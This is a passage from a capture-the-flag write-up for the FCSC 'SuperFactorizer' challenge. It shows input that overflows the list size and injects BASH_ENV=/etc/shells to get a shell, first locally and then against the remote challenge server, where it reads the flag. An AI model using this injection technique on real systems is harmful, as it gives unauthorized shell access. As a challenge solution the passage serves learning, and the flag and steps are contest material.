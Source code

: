 ```
/usr/bin/sh
```
Let's try it out locally:
```
$ ./patched
[ SuperFactorizer ]

Size of list> 9223372036854775755
nums[1]: BASH_ENV=/etc/shells
nums[2]: 


sh-5.2$
```
It works! Now we just need to run it against the remote, and we get our flag!
```
$ nc challenges.france-cybersecurity-challenge.fr 2105
[ SuperFactorizer ]

Size of list> 9223372036854775755
nums[1]: BASH_ENV=/etc/shells
nums[2]: 


id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls  
factor.sh
flag.txt
super-factorizer
cat flag.txt
FCSC{0f531ad9168d64c1d520a82593a2d968fce8478e5a6d1a310ea5531a6724dc3e}
```

## Conclusion

This challenge was not so difficult but quite original, and I am proud to be amongst the few who managed to solve it. Thanks for the challenge!
